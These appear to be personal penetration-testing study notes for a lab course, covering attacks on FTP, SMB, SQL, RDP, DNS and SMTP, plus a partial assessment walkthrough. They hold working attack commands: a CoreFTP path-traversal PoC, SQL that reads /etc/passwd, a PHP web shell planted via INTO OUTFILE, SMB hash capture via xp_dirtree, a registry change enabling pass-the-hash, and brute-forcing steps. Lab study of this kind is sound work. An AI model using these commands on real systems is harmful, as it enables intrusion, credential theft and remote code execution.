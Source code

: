 # Attacking Common Services

# FTP

Ways to attack are:

* Anonymous login
* Hydra Brute forcing

&#x20;[CVE-2022-22836](https://nvd.nist.gov/vuln/detail/CVE-2022-22836) CoreFTP before build 727 does not properly authenticate put requests &#x20;

```shell-session
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```

# SMB

Ways to attack are:

* Null authentication can test this with smbmap&#x20;
* Bruteforc with crackmapexec --local-auth flag is needed
* Psexec can be used to rum comands once we have cred
* PTH - Can use --sam flag and then PtH&#x20;
* Responder to captcher hashes

It is very important to use the --local-auth flag.

# SQL

```shell-session
select LOAD_FILE("/etc/passwd");
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```

```cmd-session
xp_cmdshell 'whoami'
EXEC master..xp_dirtree '\\10.10.110.17\share\'
Responder hash stealing!
```

Ok so some stuff: Mysql I have a relatively good grasp on. MSSql not so much.

It is worth while to note that to connect with a responder hash you need to auth as the windows user not as the sql user like this;

```
sqsh -U 10.129.16.49\\mssqlsvc -P 'princess1' -S 10.129.16.49 -h
```

# RDP

We covered all this already in the password attacks section

```
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

# DNS

```shell-session
fierce --domain zonetransfer.me
```

DNS spoofing is possible with ettercap

Zone transfer like this

```shell-session
dig AXFR @ns1.inlanefreight.htb inlanefreight.htb
```

```
echo "ns1.inlanefreight.htb" > ./resolvers.txt
./subbrute.py inlanefreight.htb -s ./names.txt -r ./resolvers.txt
dig AXFR @<IP> hr.inlanefreight.htb
```

This challenge really sucked

# SMTP

```
smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7
```

Hydra to brute force pop3&#x20;

telnet to connect to mail service. Lookup smtp commands

# Assesment

## Easy

10.129.132.35

The first place to start enumrating users is smtp. Lets use the smtp-user-eum script. And we get fiona!&#x20;

Now let's try crack ftp as that is usually quite fast to bruteforce we get it! 987654321

Now we can log in to mysql and insert a shell pn the web server to gain RCE and we get the flag!

```
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/xampp/htdocs/dashboard/shell.php';
```

## Medium

